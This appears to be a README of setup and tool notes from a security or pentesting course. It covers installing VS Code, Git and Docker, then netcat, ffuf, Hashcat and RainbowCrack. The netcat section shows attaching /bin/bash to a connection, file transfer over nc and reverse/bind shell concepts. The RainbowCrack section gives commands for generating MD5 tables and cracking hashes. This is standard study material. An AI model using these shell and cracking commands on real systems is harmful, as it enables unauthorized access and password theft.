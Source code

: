table of contents


# Installing Visual Studio Code

Download the .deb package [here](https://go.microsoft.com/fwlink/?LinkID=760868)

Install it with

```console
sudo apt install ./"filename".deb
```

Then you can launch it from the apps manager of ubuntu (Windows key) or running "code" in the cli


# Installing Git

```console
sudo apt install git-all
```

# Installing Docker

First, uninstall any default or old versions

```console
sudo apt-get remove docker docker-engine docker.io containerd runc
```

Then install required packages

```console
sudo apt-get update
sudo apt-get install \
    ca-certificates \
    curl \
    gnupg \
    lsb-release
```

Adding Dockers GPG key

```console
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
```

Add the Docker packages repository to apt sources.list

```console
echo \
    "deb [arch=$(dpkg --print-architecture) signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu \
    $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
```

Finally, install Docker engine

```console
sudo apt-get update
sudo apt-get install docker-ce docker-ce-cli containerd.io
```


# Running The Project

Simply run "docker-compose up -d" in the project root

# Github Actions

Simply go to your repository settings, then actions tab and add a new self-hosted runner.

[Workflow syntax reference](https://docs.github.com/es/actions/learn-github-actions/workflow-syntax-for-github-actions)


# CVEDetails

[CVE Database](https://www.cvedetails.com)


# Netcat

**Create the simplest listener/server -> client connection**


```console
listener@bar:~$ nc –lvp 4444
```


```console
client@bar:~$ nc "server ip" 4444 (To specify shell, –e /bin/bash)
```



**Transfering files**

server
cat file.zip | nc -lvp 1234

client
netcat "server ip" 1234 > file.zip

or:

server
nc "client ip" 1234 < file.zip

client
nc -lvp 1234 > file.zip


Test port status

```console
nc -zv "host" "port"
```


## Reverse Shell

- Listener runs on the attacker
- Noone else can connect to the target
- Relies on egress traffic (Usually egress ports like 80 or 443 are open)
- No need of NAT/PAT

## Bind Shell

- Listener runs on the target
- Relies on ingress traffic (Usually ingress ports are closed)
- Requires NAT/PAT (The private port could be mapped to a different public port)

**Remember: Ports Under 1024 are privileged**

# HaveIbeenPwned

[Check password leaks](https://haveibeenpwned.com)


# Seclists

The repository can be found [here](https://github.com/danielmiessler/SecLists)

Simply follow the instructions and unzip it in a directory you like

# Burp

Download from [here](https://portswigger.net/burp/releases/professional-community-2021-10-2?requestededition=community)

# FFUF

The project can be found [here](https://github.com/ffuf/ffuf)


Grab a release file (compiled bin) for your OS and run it

There's a handy [cheatsheet](https://cheatsheet.haax.fr/web-pentest/tools/ffuf/) that will help you using it


# HTTP Status Codes

[Cheatsheet](https://thecontentworks.uk/http-status-codes-cheat-sheet)


# Hashcat

Download from [here](https://hashcat.net/hashcat)

Basic examples can be found running hashcat -h


# RainbowCrack

Download from [here](https://project-rainbowcrack.com/index.htm) 

Generating md5 rainbow chains for passwords using the charset [a-z,0-9] with lenght between 1 and 7 characters

```console
rtgen md5 loweralpha-numeric 1 7 0 3800 33554432 0
rtgen md5 loweralpha-numeric 1 7 1 3800 33554432 0
rtgen md5 loweralpha-numeric 1 7 2 3800 33554432 0
rtgen md5 loweralpha-numeric 1 7 3 3800 33554432 0
rtgen md5 loweralpha-numeric 1 7 4 3800 33554432 0
rtgen md5 loweralpha-numeric 1 7 5 3800 33554432 0
```

Now generate the rainbow table (Array of rainbow chains)

```console
rtsort .
```

Finally crack some hashes

```console
rcrack "path to rainbow tables dir" -l "hash list file"
```

